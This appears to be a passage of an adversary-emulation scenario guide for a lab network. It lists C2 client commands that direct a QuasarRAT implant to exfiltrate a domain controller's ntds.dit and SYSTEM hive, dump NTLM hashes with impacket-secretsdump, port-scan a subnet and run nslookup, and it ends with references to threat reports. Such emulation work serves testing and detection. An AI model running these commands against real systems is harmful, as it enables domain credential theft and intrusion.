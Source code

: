   ```
  ./evalsC2client.py --set-task 7C2AA823335FAE8D17090D191845A725 '{"type": 3, "transfer_src": "C:\\$Recycle.Bin\\S-1-5-21-156812349-472333277-3174882868-1109\\$RCXNYCG\\Active Directory\\ntds.dit", "transfer_dst": "ntds.dit"}'
  ```

* Using the QuasarRAT implant on the Subsidiary A Domain Controller
`parrotmon (10.10.10.4)`, exfiltrate the generated `SYSTEM` file

  ```
  ./evalsC2client.py --set-task 7C2AA823335FAE8D17090D191845A725 '{"type": 3, "transfer_src": "C:\\$Recycle.Bin\\S-1-5-21-156812349-472333277-3174882868-1109\\$RCXNYCG\\registry\\SYSTEM", "transfer_dst": "SYSTEM"}'
  ```

* Using impacket, locally dump credentials to retrieve hashes of authenticated users, validate the NTLM hash of kizumi.da is contained in the output:

  ```
  impacket-secretsdump -system files/SYSTEM -ntds files/ntds.dit local | grep 6265fbabbdaa3ee71df61bd9f3c77d68
  ```

* Using the QuasarRAT implant on the Subsidiary A Domain Controller
`parrotmon (10.10.10.4)`, port scan the workstations of the Subsidiary A network.

  ```
  ./evalsC2client.py --set-task 7C2AA823335FAE8D17090D191845A725 '{"type": 5, "range": "10.10.20.0/24", "ports":[22, 53, 80, 445, 3389], "timeout": 300}'
  ```

* Using the QuasarRAT implant on the Subsidiary A Domain Controller
`parrotmon (10.10.10.4)`, execute nslookup against the active hosts. **Wait until each command has returned before executing the next**.

  1. `phantomon`

        ```
        ./evalsC2client.py --set-task 7C2AA823335FAE8D17090D191845A725 '{"type": 1, "proc_path":"nslookup.exe", "proc_args": "10.10.20.11"}'
        ```

  2. `ghostmon`

        ```
        ./evalsC2client.py --set-task 7C2AA823335FAE8D17090D191845A725 '{"type": 1, "proc_path":"nslookup.exe", "proc_args": "10.10.20.22"}'
        ```

  3. `cecilmon`

        ```
        ./evalsC2client.py --set-task 7C2AA823335FAE8D17090D191845A725 '{"type": 1, "proc_path":"nslookup.exe", "proc_args": "10.10.20.23"}'
        ```

### :mag: Reference Code & Reporting

1. <http://jsac.jpcert.or.jp/archive/2022/pdf/JSAC2022_9_yanagishita-tamada-nakatsuru-ishimaru_en.pdf>
1. <https://jsac.jpcert.or.jp/archive/2021/pdf/JSAC2021_202_niwa-yanagishita_en.pdf>
1. <https://media.kasperskydaily.com/wp-content/uploads/sites/86/2021/02/25140359/greatidea_A41_v1.0.pdf>

